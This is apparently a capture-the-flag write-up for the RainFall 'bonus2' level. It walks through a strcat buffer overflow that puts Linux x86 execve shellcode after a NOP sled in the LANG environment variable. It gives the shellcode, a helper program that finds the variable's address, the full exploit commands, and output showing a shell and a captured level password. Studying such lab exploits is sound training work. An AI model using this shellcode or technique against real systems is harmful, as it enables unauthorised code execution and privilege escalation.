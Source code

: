 
# Preparations

Entering bonus2 home directory we see a bonus2 binary with sticky bit in access rights.
By objdumping the binary we see a main and a greetuser function:

	bonus2@RainFall:~$ objdump -D -M intel-mnemonic bonus2 > /tmp/dump_bon2

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Exploitation

We have `strcat` that is unsecure in `greetuser` function. We can use buffer overflow and an environmental variable `LANG` that is used in binary. In a variable there should be a shellcode. We will use the one that was already used - shellcode for linux x86:

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

What does it mean:

	Disassembly of section .text:

	08048060 <_start>:
	 8048060: 31 c0                 xor    %eax,%eax
	 8048062: 50                    push   %eax
	 8048063: 68 2f 2f 73 68        push   $0x68732f2f	;'//sh'
	 8048068: 68 2f 62 69 6e        push   $0x6e69622f	;'/bin'
	 804806d: 89 e3                 mov    %esp,%ebx	;copy string (command) address
	 804806f: 89 c1                 mov    %eax,%ecx
	 8048071: 89 c2                 mov    %eax,%edx
	 8048073: b0 0b                 mov    $0xb,%al		;11
	 8048075: cd 80                 int    $0x80		;execve()
	 8048077: 31 c0                 xor    %eax,%eax
	 8048079: 40                    inc    %eax
	 804807a: cd 80                 int    $0x80		;restart_syscall()

Shellcode length is 28 bytes that is very important because we need to count where to put it so that it is executed and does not break the programm.\
We need to use `LANG` environment variable two times to exploit the binary but its address is not changed so it will be found by the helping programm:

    #include <stdio.h>
	#include <stdlib.h>

	int main(int argc, char **argv)
	{
		printf("%s is at %p\n", argv[1], getenv(argv[1]));
	}

And create the variable with shellcode:

	bonus2@RainFall:~$ ls /tmp
	bonus2@RainFall:~$ vi /tmp/find_env.c
	bonus2@RainFall:~$ gcc -o /tmp/find_env /tmp/find_env.c
	bonus2@RainFall:~$ export LANG=$(python -c 'print "fi" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	bonus2@RainFall:~$ /tmp/find_env LANG
	LANG is at 0xbffffe85 # \x89\xfe\xff\xbf in little-endian

What is `"\x90" * 100` here? That is a `NOP`path: 

> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is a machine language instruction and its assembly language mnemonic, programming language statement, or computer protocol command that does nothing. `NOP` can be useful to "yield" during a critical section, i.e. allow other interrupts to occur so as to reduce interrupt latency caused by the critical section. It is processed by the CPU like any other instruction. So this means that it will be readed from memory, will increment the instruction pointer, but in the execute phase after the instruction decode nothing else will be done.

That means that CPU will do nothing but just increment the instruction pointer and finally we will come to out shellcode. Why 100? Because we make it quite big so that nothing interrupts CPU on the way to shellcode.\
According to https://wiremask.eu/tools/buffer-overflow-pattern-generator/ we also get offsets for fi and nl: fi is 18, nl is 23.\
So let's try the exploitation, we need to do it one after another and because of static memory we will get shell with shellcode:

    bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a" * 23 + "\xe0\xfe\xff\xbf"')

Offset is 23 so "a" * 23.\
First "a" * 40 is needed for alignment.

# Result

	bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a" * 23 + "\xe0\xfe\xff\xbf"')
	Goedemiddag! aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
	$ whoami
	bonus3
	$ cat /home/user/bonus3/.pass
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587